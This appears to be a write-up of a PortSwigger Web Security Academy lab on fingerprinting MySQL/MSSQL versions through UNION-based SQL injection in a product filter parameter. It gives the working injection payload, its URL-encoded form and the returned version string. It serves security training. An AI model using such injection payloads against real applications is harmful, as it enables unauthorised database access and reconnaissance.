

# Lab 5: SQL Injection Attack — Querying the Database Type and Version on MySQL and Microsoft

**Source:** PortSwigger Web Security Academy
**Status:** ✅ Solved

## Background

Unlike Oracle, both MySQL and Microsoft SQL Server expose the engine
version through a simple global variable, with no `FROM` clause required:

```sql
SELECT @@version
```

This lab reuses the UNION technique from Lab 3 to inject this into the
existing product filter query.

## Vulnerable endpoint

```
/filter?category=
```

## Payload

```
' UNION SELECT @@version, NULL#
```

URL-encoded:
```
/filter?category=%27+UNION+SELECT+@@version,+NULL%23
```

Note the use of `#` instead of `--` as the comment marker — both work on
MySQL, but `#` is the more idiomatic MySQL line-comment syntax (and
avoids any trailing-space issues that `--` can have depending on how the
query is terminated).

## Result

The page returned the full version string, confirming the backend:

```
8.0.42-0ubuntu0.20.04.1
```

This identifies the database as **MySQL 8.0.42** running on Ubuntu
20.04.



## Key Takeaway

- `@@version` is the fast path for fingerprinting MySQL/MSSQL — no
  system table lookups needed.
- Comment syntax matters: `--` (with trailing space) works broadly,
  `#` is MySQL-specific, and Oracle doesn't support `#` at all — picking
  the wrong one can silently break a payload.
- Combined with Lab 4, this covers version fingerprinting across all
  three major DB engines PortSwigger tests: Oracle, MySQL, and MSSQL.
